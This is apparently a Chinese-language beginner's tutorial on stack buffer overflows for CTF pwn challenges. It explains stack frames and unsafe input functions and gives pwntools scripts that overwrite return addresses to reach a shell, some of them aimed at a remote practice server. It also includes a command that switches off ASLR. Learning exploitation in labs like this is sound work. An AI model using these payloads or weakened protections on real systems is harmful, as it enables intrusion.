 # 栈溢出
<font color=###000AAA>
    栈溢出是学习pwn的基础，也是pwn中最简单的题目。
    pwn入门，跟着ctfwiki一起学习pwn栈溢出。
</font>
#### <font face="微软雅黑" size=6 color=#FF0000 >一、栈溢出原理</font>
##### <font size=5>1、栈存储模式</font>
<font face="幼圆" color=#AAA>栈是一种数据结构，存储函数的局部变量，每次调用函数就会为当前调用的函数开辟栈空间，这样的空间被称为栈帧</font>
- 栈的存储对象是函数的局部变量和参数
- 函数调用栈的内存从高往低的方向伸展，先入栈的在高地址，后入的在低地址
- 栈内的变量写入时，是从低地址向高地址写入，所以溢出的时候，只能够覆盖高地址的内容(比输入变量地址高)
##### <font size=5>2、栈调用以及释放</font>
<font face="微软雅黑" color=#AAA>函数使用call来调用另外的函数</font>
- 首先父函数会先把后一个函数的参数压入栈，具体参数压入的顺序，不同的调用约定不同，这里不讨论

- 其次父函数会调用call函数来进入子函数，call的同时，会进行一系列的操作，其中包括把call的下一条指令的地址也就是ret_add压入栈，然后把子函数的第一条指令放入指令寄存器IR

- 之后就是push ebp; move ebp,esp; sub esp,xxx;这句话的意思是，把目前的ebp寄存内容入栈，并且把ebp指向当前栈顶,然后再开辟栈空间。
<div>
<image src=https://i.loli.net/2020/12/01/MqvxA6osEBTdmUY.png>
</div>
  **最后这里比较绕，主要是分析的时候想清楚，栈空间和IDA里面的那个地方，汇编语言的存储空间是不一样的，栈存储在栈存储空间。**
- 函数释放，是函数内的最后几行语句，一般会有**add esp,xxx**这里就是返回开辟的栈，然后会**pop ebp**; 这句话是弹出上个函数的ebp，恢复上个函数的栈帧，最后会ret这句是返回到上个函数的指令，即把ret_add放到指令寄存器中去，这样就完成了整个函数的调用，此外，函数调用时，eax默认存储返回值，所以有时候也会ret eax;还有一个**leave**函数，直接一步到位，完成上面所有函数，所以有时候也是leave函数来代替前面的函数。

##### <font size=5>3、函数的调用模式</font>
<font face="幼圆" color=#AAA>不同的结构有不同的调用约定，这里先不解释</font>
##### <font size=5>4、原理</font>
<font face="幼圆" color=#AAA>栈溢出即，有些函数会向用户请求输入，但是却没有做输入的限制，导致用户可以恶意的构造输入代码，从而达到在栈上面恶意执行shellcode或者覆盖变量和函数返回地址，从而达到控制程序getshell的方法</font>
- 主要的危险函数有
- get()函数
- strcpy()
- scanf()
- vscanf()
- 暂无，有一个记一个
#### <font face="微软雅黑" size=6 color=#FF0000 >二、栈溢出初体验</font>
<font face="幼圆" color=#AAA>下面来一个栈溢出的例题看看吧</font>
##### <font size=5>1、栈溢出例题</font>
**此处的例子来自ctfwiki**
- 首先在Ubuntu虚拟机里，编写一个C文件
```shell
vim stack1.c
```
```c
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```
```shell
gcc -m32 -fno-stack-protector stack1.c -o stack1 -no-pie
```
如上方式去运行这个C程序，会得到一个stack1的文件，-m32表示生成32位的 -fno-stack-protector 表示不开启canary保护 -no-pie表示不开启PIE保护./访问这个文件可以运行，使用
```shell
checksec stack1
```
可以查看文件的具体详情，例如有没有开启canary或者PIE之类的。
![查内容.jpg](https://i.loli.net/2020/12/02/RHs61FM7qhALjbV.png)
这里是我查出来的，可以看到开启了PIE保护，这时候为了避免地址随机化要关闭ASLR，并且重新编译，记得带上-no-pie参数，如果有PIE地址还是会随机化
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
```
把/proc/sys/kernel/randomize_va_space的文件内容改为0
0表示不开启地址随机化保护，1表示开启，2表示增强，一般是2，这里我们要改为1
然后打开ida分析stack1，找到main函数和vulnerable函数。
是这样的

```c
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```
看到ebp-14是s的开始，往低地址是栈底，那么ebp+4开始往高地址的话就应该是ret_add了，前面说过，变量内部是从低地址往高地址写内容的，所以我们写入s的时候，就可以先写入0x14的无效字符，然后再输入success的地址，就可以把返回地址改为success函数了，这样就实现了一次简单的栈溢出，首先查看一下success的地址，双击该函数即可查看0x8048456
使用python编写脚本。

```python
from pwn import *

p = process("./stack1")
fake = 0x14*'a'
ebp = 'bbbb'
ret_add = 0x8048456
payload = fake + ebp + p32(ret_add)
p.sendline(payload)
p.interactive()
```
![](https://ftp.bmp.ovh/imgs/2020/12/65a924d11264d096.jpg)
成功执行栈溢出
##### <font size=5>2、栈溢出的做题基本步骤</font>
- 首先要checksec查看基本信息
- 然后文件拖入IDA分析
- 在之后分析是否存在栈溢出的危险函数
- 查看后，如果存在，则查看请求字符串的栈结构，最好可以画出图形类似下图
```
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```
- 然后确定覆盖字符，注意ebp寻址还是esp寻址esp寻址要多加上8个字节。
- 最后寻找有没有危险函数直接拿到shell，有的话找出地址，填入返回地址
- 成功拿到shell
##### <font size=5>3、例题解析</font>
<font color=#AAA>此处再加上一个例题</font>
**例题来自攻防世界 int_overflow**
checksec一下
![](https://i.bmp.ovh/imgs/2020/12/0f36341c6bdbe644.png)
没有保护，拖进IDA分析。本地运行一下看个大概
![](https://i.bmp.ovh/imgs/2020/12/b53be581a5aaf0bd.png)
分析函数表，果然发现一个what_is_this函数，点进去看了一下system('cat flag')应该就是这里了，查看地址
![](https://i.bmp.ovh/imgs/2020/12/d5aed711a46fc321.png)
所以ret-add=0x804868B
再看一下main函数，看到了scanf('%d',v4)没有做输入限制，看一下V4的栈分配地址ebp-ch，ok懂了。
```
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0xC-->+-----------------+
```
大概是这样。写payload
```python
from pwn import *
p = remote('220.249.52.133',49645)
# 这里是连接靶机,process是相当于连接本机
fake = 0xC * 'a'
ebp = 'bbbb'
ret_add = p32(0x804868B)
payload = fake + ebp + ret_add
p.sendline(payload)
p.interactive()
```
运行一下,果然不对，哈哈哈，其实这不是一道地址栈溢出的题目，这是一道整形溢出的题目，这里先不说这个题，等到后来学的时候在做例题哈哈哈。
真正的题目在这里！！！**功夫世界level0**
老规矩check一下
![](https://i.bmp.ovh/imgs/2020/12/0f9e22f59f2feb86.png)
没有保护，运行一下
拖进ida分析
发现callsystem函数，定位在0x40059A(call的上一行)定下ret_add=0x40059A
分析main函数，发现调用了vulnarable_function，点进去看一下read了一个buff变量，分配了0x80的空间，但是读了0x200(512uLL)于是可以利用栈溢出
payload
```python
from pwn import *
p = remote('220.249.52.133',58994)
fake = 0x80 * 'a'
ebp = 'bbbb'
ret_add = p64(0x40059A)
payload = fake + ebp + ret_add
p.sendline(payload)
p.interactive()
```
发现没有拿到shell这是为什么呢，是不是64位程序有点不同？
仔细ida的xxx_function函数栈，发现ebp有8个字节。。。原来如此把上面的ebp改成'bbbbbbbb'
![](https://i.bmp.ovh/imgs/2020/12/2c98d6dffd066307.png)
记住64和32的不同！！！32位处处使用4字节而64位则使用8字节，所以就不一样了
运行一下，拿到shell
![](https://i.bmp.ovh/imgs/2020/12/52498e569ba87b2a.png)
栈溢出初级阶段就到这里吧.

此外如果是esp寻址，那么一般是要多加8个位置，最好还是gdb调试一下，断电下在函数入口，然后比较esp的值，加上偏移量算出s的地址，在根据s和ebp的地址差算出填充字符。

